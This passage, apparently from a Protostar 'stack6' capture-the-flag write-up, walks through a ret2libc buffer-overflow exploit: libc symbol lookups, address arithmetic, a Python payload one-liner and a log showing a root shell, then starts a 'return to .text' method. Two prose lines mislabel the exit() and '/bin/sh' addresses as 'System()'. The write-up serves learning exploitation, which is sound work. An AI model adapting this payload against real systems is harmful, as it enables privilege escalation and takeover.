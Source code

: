   2. Find an address of Exit() function in libc
```
(gdb) shell readelf -s "/lib/libc-2.11.2.so" | grep exit
   107: 0002f520    60 FUNC    GLOBAL DEFAULT   12 __cxa_at_quick_exit@@GLIBC_2.10
   136: 0002f0c0    47 FUNC    GLOBAL DEFAULT   12 exit@@GLIBC_2.0
   542: 00097154    19 FUNC    GLOBAL DEFAULT   12 _exit@@GLIBC_2.0
   596: 000f3880    67 FUNC    GLOBAL DEFAULT   12 svc_exit@@GLIBC_2.0
   630: 0002f4f0    47 FUNC    GLOBAL DEFAULT   12 quick_exit@@GLIBC_2.10
   845: 0002f330    59 FUNC    GLOBAL DEFAULT   12 __cxa_atexit@@GLIBC_2.1.3
  1012: 001053b0    59 FUNC    GLOBAL DEFAULT   12 atexit@GLIBC_2.0
  1339: 00141164     4 OBJECT  GLOBAL DEFAULT   33 argp_err_exit_status@@GLIBC_2.1
  1448: 000d89e0    70 FUNC    GLOBAL DEFAULT   12 pthread_exit@@GLIBC_2.0
  2025: 001410cc     4 OBJECT  GLOBAL DEFAULT   33 obstack_exit_failure@@GLIBC_2.0
  2174: 0002f0f0    88 FUNC    WEAK   DEFAULT   12 on_exit@@GLIBC_2.0
  2318: 000de1c0     5 FUNC    GLOBAL DEFAULT   12 __cyg_profile_func_exit@@GLIBC_2.2
```
  Since the libc base address was 0xb7e97000, we got the address of System() function: 0xb7e97000 + 0x0002f0c0 = 0xB7EC60C0

  3. Prepare an address of my shell command

  For this step, we just need the string **/bin/sh** in somewhere so I'll try to find them it libc.
```
(gdb) shell strings -t x "/lib/libc-2.11.2.so" | grep "/bin/sh"
 11f3bf /bin/sh
```
  Since the libc base address was 0xb7e97000, we got the address of System() function: 0xb7e97000 + 0x0011f3bf = 0xB7FB63BF

  4. Prepare final paylaod
  > {NOP or Some Buffer}(80) + {Address of System()}(4) + {Address Exit()}(4) + {Address of string "/bin/sh"}(4)
```
python -c 'print("\x90"*(80) + "\xb0\xff\xec\xb7" + "\xC0\x60\xEC\xB7" + "\xBF\x63\xFB\xB7")' > /tmp/exploit6_ret2libc
```

  Got the shell.
```
user@protostar:~$ python -c 'print("\x90"*(80) + "\xb0\xff\xec\xb7" + "\xC0\x60\xEC\xB7" + "\xBF\x63\xFB\xB7")' > /tmp/exploit6_ret2libc
user@protostar:~$ cat /tmp/exploit6_ret2libc - | /opt/protostar/bin/stack6
input path please: got path 

                             id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root
```


## 3. Return to .Text
  .text is just a section of assembly code. We will now return to return instruction of getpath() function 
  1. Find the address of return instruction of getpath() function
```
(gdb) disassemble getpath
Dump of assembler code for function getpath:
0x08048484 <getpath+0>: push   %ebp
0x08048485 <getpath+1>: mov    %esp,%ebp
0x08048487 <getpath+3>: sub    $0x68,%esp
0x0804848a <getpath+6>: mov    $0x80485d0,%eax
0x0804848f <getpath+11>:        mov    %eax,(%esp)
0x08048492 <getpath+14>:        call   0x80483c0 <printf@plt>
0x08048497 <getpath+19>:        mov    0x8049720,%eax
0x0804849c <getpath+24>:        mov    %eax,(%esp)
0x0804849f <getpath+27>:        call   0x80483b0 <fflush@plt>
```